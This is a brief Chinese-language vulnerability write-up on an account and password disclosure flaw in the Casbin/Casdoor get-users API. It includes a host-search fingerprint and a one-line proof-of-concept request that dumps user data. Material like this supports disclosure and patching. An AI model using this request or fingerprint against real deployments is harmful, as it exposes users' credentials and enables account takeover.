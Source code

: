 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>Casbin</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Casdoor"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646232783496-55549f0b-2c00-4f19-93bd-764b2df2d7e1.png)

验证POC

```javascript
/api/get-users?p=123&pageSize=123
```

![img](../../../.vuepress/public/img/1646232815871-7695e1f9-9425-44a5-bece-8a511e757461.png)

